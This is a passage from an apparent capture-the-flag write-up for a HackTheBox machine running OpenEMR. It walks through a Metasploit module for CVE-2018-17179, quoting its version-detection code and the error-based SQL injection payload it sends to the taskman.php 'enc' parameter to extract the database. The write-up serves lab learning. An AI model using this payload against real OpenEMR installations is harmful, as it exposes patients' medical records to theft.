 ```
  5.0.1 Patch 6 and lower. The vulnerability allows the contents of
  the entire database (with exception of log and task tables) to be
  extracted. This module saves each table as a `.csv` file in your
  loot directory and has been tested with OpenEMR 5.0.1 (3).

References:
  https://cvedetails.com/cve/CVE-2018-17179/
  https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617
```

In metasploit you can use the `edit` command to open your default editor on
the source code of the module.
By doing that I read the code of the msf module and saw how to detect openEMR
version with method `openemr_version`:

```ruby
 def openemr_version
    res = send_request_cgi(
      'method' => 'GET',
      'uri' => normalize_uri(uri, 'admin.php')
    )
    vprint_status("admin.php response code: #{res.code}")
    document = Nokogiri::HTML(res.body)
    document.css('tr')[1].css('td')[3].text
  rescue StandardError
    ''
  end
```

Let's just go to http://hms.htb/admin.php to check the version installed:

![](https://i.imgur.com/jjcfG4V.png)

We have exactly 5.0.1 (3).

Now by reading `get_response` method we know which endpoint is requested and
which parameter is vulnerable.

```ruby
  def get_response(payload)
    response = send_request_cgi(
      'method' => 'GET',
      'uri' => normalize_uri(uri, 'interface', 'forms', 'eye_mag', 'taskman.php'),
      'vars_get' => {
        'action' => 'make_task',
        'from_id' => '1',
        'to_id' => '1',
        'pid' => '1',
        'doc_type' => '1',
        'doc_id' => '1',
        'enc' => "1' and updatexml(1,concat(0x7e, (#{payload})),0) or '"
      }
    )
    response
  end
```

